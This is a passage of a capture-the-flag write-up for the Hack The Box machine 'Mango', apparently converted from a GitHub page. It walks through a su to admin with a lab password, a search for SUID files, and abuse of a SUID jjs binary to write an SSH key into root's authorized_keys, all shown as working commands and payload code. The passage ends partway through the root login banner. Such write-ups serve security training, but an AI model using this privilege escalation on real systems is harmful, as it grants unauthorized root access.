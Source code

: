 ## Admin - Su
1. Switch to user `admin` w/ `t9KcS3>!0B#2`
	```
	mango@mango:/home/admin$ su admin
	Password: t9KcS3>!0B#2
	$ id;whoami
	uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
	admin
	$
	```

##  Root - Enumeration
1. Find files w/ SUID bit set
	```
	admin$ find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null | grep admin
	-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
	```
	- `jjs` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/jjs/#file-write)



## Root - SUID GTFOBINS
1. How do we exploit `jjs`
	- If `jjs` has  the SUID bit set, it does not drop the elevated privileges.
	- We are able to write our SSH public key into `root`'s `authorized_keys`, allowing us to privilege escalate to user `root`.
2. Exploit `jjs - File Write`  
	1. Create payload
		```bash
		export EXPLOIT='var FileWriter = Java.type("java.io.FileWriter");
		var fw=new FileWriter("/root/.ssh/authorized_keys");
		fw.write("your id_rsa.pub");
		fw.close();' 
		```
	2. Write file
		```
		$ echo $EXPLOIT |/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		```
	3. SSH w/ `root`
		```
		┌──(root💀kali)-[~/htb/mango]
		└─# ssh root@mango.htb
		Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
		
		 * Documentation:  https://help.ubuntu.com
		 * Management:     https://landscape.canonical.com
		 * Support:        https://ubuntu.com/advantage
		
		  System information as of Sat Sep 24 13:27:37 UTC 2022
		
		  System load:  0.04               Processes:            105
		  Usage of /:   25.8% of 19.56GB   Users logged in:      1
		  Memory usage: 15%                IP address for ens33: 10.10.10.162
		  Swap usage:   0%
		